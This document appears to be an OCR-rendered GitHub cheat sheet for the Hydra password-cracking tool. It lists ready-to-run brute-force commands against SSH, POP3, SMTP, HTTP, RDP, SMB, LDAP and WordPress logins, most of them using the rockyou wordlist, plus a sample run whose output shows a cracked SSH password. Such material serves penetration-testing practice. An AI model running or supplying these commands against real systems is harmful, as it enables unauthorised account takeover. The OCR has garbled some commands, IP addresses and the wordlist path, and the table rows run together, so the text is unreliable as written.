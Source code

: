 $Hydra-Cheatsheet
Hydra Password Cracking Cheetsheet

The following table uses the $ip variable which can be set with the following command:  

`export ip 10.10.10.1`


| Command | Description |
|-------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------|
$ hydra -L users.txt-p buterfly 10.10.137.76 ssh                                                                                                 $ hydra -L users.txt-p buterfly 10.10.137.76 ssh                      |
Hydra v9.0 (ttps://github.com/vanhauser-the/the-hydra) starting at 2024-04 15:00:00                            (DATA) max 1 task per 1 server.overall 1 task.s login tries(l:p:1).- try per task         (DATA) attacking ssh://10.137.76:22/                 (STATUS)1.00 tries/min,5 tries in 00:05h, to do in 00:05h, 1 active                                                                                [22][ssh] host:10.10.@37.76 login:molly password:buterfly 1 of 1 target sucessfully completed,l valid password found         |
| hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh                                                                                                                                                  | Hydra SSH Against Known username on port 22          |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V                                                                          | Hydra POP3 Brute Force                               |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V                                                                                         | Hydra SMTP Brute Force                               |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                                                 | Hydra attack http get 401 login with a dictionary    |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                           | Hydra attack Windows Remote Desktop with rockyou     |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb                                                             | Hydra brute force SMB user with rockyou:             |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Hydra brute force a Wordpress admin login            |
| hydra -L usernames.txt -P passwords.txt $ip smb -V -f | SMB Brute Forcing |
| hydra -L users.txt -P passwords.txt $ip ldap2 -V -f | LDAP Brute Forcing |
  
